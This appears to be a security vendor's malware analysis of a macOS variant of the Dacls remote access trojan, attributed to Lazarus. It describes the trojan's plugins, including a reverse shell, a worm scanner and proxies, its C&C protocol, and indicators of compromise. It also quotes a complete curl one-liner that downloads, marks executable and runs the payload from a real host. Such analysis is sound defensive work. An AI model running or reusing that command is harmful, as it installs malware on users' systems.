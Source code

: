   Both Mac and Linux variants use the same AES key and IV to encrypt and decrypt the config file. The AES mode in both variants is CBC.    The config file location and name are stored in hex format within the code. The name of the config file pretends to be a database file related to the Apple Store: “Library/Caches/Com.apple.appstore.db”    The “IntializeConfiguration” function initializes the config file with the following hardcoded C&C servers.     The config file is constantly updated by receiving commands from the C&C server. The application name after installation is “mina”. Mina comes from the MinaOTP application which is a two-factor authentication app for macOS.    Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227